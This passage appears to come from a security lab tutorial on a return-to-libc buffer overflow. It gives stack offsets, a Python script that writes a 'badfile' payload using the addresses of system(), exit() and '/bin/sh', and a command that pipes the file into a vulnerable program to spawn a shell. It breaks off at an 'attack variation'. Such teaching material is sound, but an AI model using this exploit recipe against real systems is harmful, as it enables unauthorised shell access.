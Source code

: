 2. **Trial and Error**:
   - Start with a guess for `X`, `Y`, and `Z` based on the stack layout.
   - Adjust the offsets until the payload overwrites the return address correctly.

For this example, let's assume the following offsets:
- `X = 112`: The offset where the address of `"/bin/sh"` is placed.
- `Y = 108`: The offset where the address of `system()` is placed.
- `Z = 116`: The offset where the address of `exit()` is placed.

---

###### Step 3: Update the Exploit Code
Now that we have the addresses and offsets, we can update the exploit code:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
sh_addr = 0xf7f52a0b       # The address of "/bin/sh"
system_addr = 0xf7e12420   # The address of system()
exit_addr = 0xf7e04f80     # The address of exit()

# Offsets
X = 112
Y = 108
Z = 116

# Construct the payload
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')
content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

---

###### Step 4: Test the Exploit
1. Run the vulnerable program with the crafted `badfile`:
   ```bash
   ./vulnerable_program < badfile
   ```
2. If the exploit is successful, you should get a shell.

---

##### Attack Variations

###### Variation 1: Exclude `exit()`
To test the attack without including the address of `exit()`, simply remove the `exit_addr` from the payload:
